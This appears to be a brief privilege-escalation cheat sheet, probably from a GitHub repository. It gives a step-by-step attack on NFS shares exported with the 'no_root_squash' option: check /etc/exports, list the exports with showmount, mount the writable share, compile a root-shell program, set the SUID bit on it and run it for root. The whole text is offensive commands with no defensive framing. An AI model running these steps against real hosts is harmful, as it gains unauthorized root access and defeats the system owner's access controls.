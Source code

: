 # Example:

## cat /etc/exports

# Critical element: "no_root_squash" on a writable share (SUID bit set file create) or fsid=0/fsid=root

### 1: showmount -e IP

### 2: mkdir /tmp/backups

### 3: mount -o rw IP:/writable_share /tmp/backups

### 4: Write a bash shell that spawns root (Rootshells directory in repo)

### 5: gcc nfs.c -o nfs -w 

### 6: chmod +s nfs

### ./nfs
